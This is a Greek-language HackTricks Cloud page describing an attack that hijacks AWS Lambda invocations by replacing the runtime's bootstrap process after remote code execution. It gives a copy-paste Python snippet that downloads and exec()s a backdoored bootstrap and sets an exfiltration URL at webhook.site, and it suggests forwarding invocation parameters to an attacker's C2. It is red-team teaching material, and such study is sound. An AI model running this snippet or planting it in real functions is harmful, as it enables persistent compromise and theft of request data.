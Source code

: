 # AWS - Κλοπή Αιτημάτων Lambda

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ροή Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι μια διαδικασία εκτός του κοντέινερ που **στέλνει** **κλήσεις** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** εκθέτοντας μερικά ενδιαφέροντα endpoints:
* **`/2018-06-01/runtime/invocation/next`** – λάβετε το επόμενο γεγονός κλήσης
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστρέψτε την απάντηση του χειριστή για την κλήση
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστρέψτε ένα σφάλμα εκτέλεσης
3. **bootstrap.py** έχει έναν βρόχο που λαμβάνει κλήσεις από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τις διαχειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στην init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως module, οπότε οποιαδήποτε εκτέλεση κώδικα που εκτελείται από τον κώδικα του χρήστη συμβαίνει στην πραγματικότητα σε αυτή τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα του χρήστη να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που διαχειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη bootstrap** διαδικασία θα αρχίσει να **επικοινωνεί με τη διαδικασία init** για να διαχειριστεί τα αιτήματα ενώ η **νόμιμη** bootstrap είναι **παγιδευμένη** εκτελώντας την κακόβουλη, οπότε δεν θα ζητήσει αιτήματα από τη διαδικασία init.

Αυτή είναι μια απλή εργασία για να επιτευχθεί καθώς ο κώδικας του χρήστη εκτελείται από τη νόμιμη διαδικασία **`bootstrap.py`**. Έτσι, ο επιτιθέμενος θα μπορούσε:

* **Να στείλει ένα ψεύτικο αποτέλεσμα της τρέχουσας κλήσης στη διαδικασία init**, ώστε η init να νομίζει ότι η διαδικασία bootstrap περιμένει περισσότερες κλήσεις.
* Ένα αίτημα πρέπει να σταλεί στο **`/${invoke-id}/response`**
* Το invoke-id μπορεί να αποκτηθεί από τη στοίβα της νόμιμης διαδικασίας **`bootstrap.py`** χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) python module (όπως [προτάθηκε εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ή απλά ζητώντας το ξανά στο **`/2018-06-01/runtime/invocation/next`** (όπως [προτάθηκε εδώ](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Εκτελέστε μια κακόβουλη **`boostrap.py`** που θα διαχειρίζεται τις επόμενες κλήσεις
* Για λόγους μυστικότητας, είναι δυνατό να στείλετε τις παραμέτρους κλήσεων lambda σε έναν ελεγχόμενο από τον επιτιθέμενο C2 και στη συνέχεια να διαχειριστείτε τα αιτήματα όπως συνήθως.
* Για αυτήν την επίθεση, αρκεί να αποκτήσετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή το [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), να προσθέσετε τον κακόβουλο κώδικα και να τον εκτελέσετε από την τρέχουσα κλήση lambda.

### Βήματα Επίθεσης

1. Βρείτε μια **RCE** ευπάθεια.
2. Δημιουργήστε μια **κακόβουλη** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Εκτελέστε** την κακόβουλη bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες εκτελώντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
